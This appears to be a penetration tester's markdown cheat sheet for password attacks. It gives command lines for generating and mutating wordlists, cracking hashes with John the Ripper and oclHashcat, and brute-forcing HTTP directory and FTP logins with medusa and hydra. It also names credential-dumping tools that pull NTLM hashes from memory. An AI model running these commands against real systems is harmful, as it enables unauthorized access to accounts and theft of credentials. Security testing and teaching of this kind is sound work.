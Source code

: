# Finding Passwords
```
grep -rl hash
grep -rl password
```

# Wordlist creation
```
crunch 6 6 0123456789ABCDEF -o list.txt
crunch 8 8 -t ,@@^^%%%
```
```
/usr/share/crunch/charset.lsr mixalpha -o  mixda.txt
```

# Wordlist using keywords from a site
```
cewl example.com -m 6 -w out.txt
```

# Mutate wordlists
```
/etc/john/john.conf
> $[0-9]$[0-9]
```

```
john --wordlist=out.txt --rules --stdout > mutated.txt
```

# Tools
- pwdump
- fgdump
- windows credential editor (WCE) - Steal NTLM hashes from memory and auth modules

# Password Cracking
```
john hashes.txt
```

# Htaccess

```
medusa -h ip -u admin -P passwords.txt -M http -m DIR:/admin -T 20
```

# FTP
```
hydra  -l admin -P pass.txt -v ip ftp
```

# Basic Auth
```
cewl example.com -m 6 -w /root/mega-cewl.txt 2> /dev/null
john --wordlist=mega-cewl.txt --rules --studout > mega-cewl-mutated.txt
medusa -h admin.example.com -u admin -P mega-cewl-mutated.txt -M http -n 81 -m DIR:/admin -T 30
```

# Salted Hash Cracking

## oclHashcat

oclHashcat input file should be in format: `passwordhash:salt`

```
oclHashcat-plus64.bin -m 110 hashes.txt ../big-wordlist --force
```
